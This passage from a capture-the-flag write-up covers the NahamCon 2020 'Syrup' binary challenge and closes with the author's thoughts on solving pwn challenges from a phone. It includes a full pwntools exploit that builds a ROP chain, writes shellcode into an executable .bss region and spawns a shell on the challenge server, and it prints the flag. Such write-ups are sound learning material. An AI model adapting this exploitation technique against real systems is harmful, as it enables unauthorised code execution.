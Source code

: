 To exploit this, we can use ROP to set the value of `rbp` to `0x402000`(address of the RWX .bss section), and jump to address `0x040105d` in the middle of `fn1`, which allows us to write into `0x402000` with any input. We can write our shellcode there, and allow the ropchain to bring us to `0x402000`, popping our shell to get the flag.

```python
import sys
from pwn import *

if args.REMOTE:
	r = remote("jh2i.com", 50036)
else:
	r = process("./syrup")
pause()

p = lambda x : p64(x).decode('Latin-1')
rop = 'A'*0x400
rop+= p(0xdead^0xbeef)*2 # stack cookie thing
rop+= p(0x0000000000401011) # pop rbp ; ret
rop+= p(0x402000) # RWX .bss section
rop+= p(0x040105d) # middle of fn1
rop+= p(0xdead^0xbeef)*2 # stack cookie thing
rop+= p(0x402000) # jump to our shellcode
r.sendafter("?", rop)

sleep(0.1)
context.arch = "amd64"
sc = asm(shellcraft.amd64.linux.sh())
r.send(sc)

r.interactive()
```

`flag{Sr0ppin_t0_v1ct0Ry}`

[syrup]:/ctf/nahamcon20/Syrup/syrup
[syrup-exploit]:/ctf/nahamcon20/Syrup/exploit.py

# Conclusion

Pwning on mobile is certainly possible, but is honestly quite an inconvenient experience. Especially after writing this writeup on the computer and being able to reference the computer web version of Binary Ninja Cloud, it's really far more frustrating to use on mobile. However, I think this set-up could be a possibility for those who do not have access to computers due to their costs. With a phone, internet access, $5 USD/month and lots of patience to drag sliders around in binary ninja's HLIL view, one could possibly practice pwning with a minimal budget.

Hopefully, I won't have to do pwning on mobile much more in the future XD. But seeing as I'm going to be the Singapore army's version of a security guard for 2 more years T-T, I may not have much of a choice...
